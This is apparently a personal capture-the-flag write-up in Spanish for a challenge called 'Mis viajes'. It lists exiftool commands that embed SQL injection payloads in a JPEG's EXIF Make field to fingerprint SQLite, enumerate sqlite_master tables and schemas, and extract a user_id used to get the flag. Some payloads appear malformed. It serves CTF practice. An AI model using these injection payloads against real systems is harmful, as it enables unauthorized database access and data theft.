






# Desafío 27 - Mis viajes

Desafío 27 - Mis viajes 
formato id del usuario: d6ac9cd7-03d8-4a95-a73f-41a02f09d210 
 
-- qué motor de base de datos se está utilizando 
exiftool -Make="',(SELECT sqlite_version())) --" -Model="payload_model" test.jpg_original 
 
La versión 3.40.1 en el contexto de SQL se refiere a la versión del motor de base de datos 
SQLite, lanzada el 28 de diciembre de 2022

exiftool 
-Make="'||(SELECT 
name 
FROM 
sqlite_master 
LIMIT 
OFFSET 
0)||'" 
test.jpg_original 
 
exiftool 
-Make="'||(SELECT 
name 
FROM 
sqlite_master 
LIMIT 
OFFSET 
1)||'" 
test.jpg_original

exiftool 
-Make="'||(SELECT 
name 
FROM 
sqlite_master 
LIMIT 
OFFSET 
2)||'" 
test.jpg_original 
 
exiftool 
-Make="'||(SELECT 
sql 
FROM 
sqlite_master 
WHERE 
name='images')||'" 
test.jpg_original

exiftool -Make="'||(SELECT user_id FROM images LIMIT 1)||'" test.jpg_original 
id 
 
id del vaguito 
1089b4a3-b6d0-450d-9c8a-b120b30bcb04 
 
Le pase el código del script.js para que me diga como mierda resolver

Copie el id del usuario con images en el endpoint y domadisimo. No se que onda el formato 
pero buenoooo 
 
 
Código ganador 
878c14bbd5cd0127b86fd8dac1d55c4d

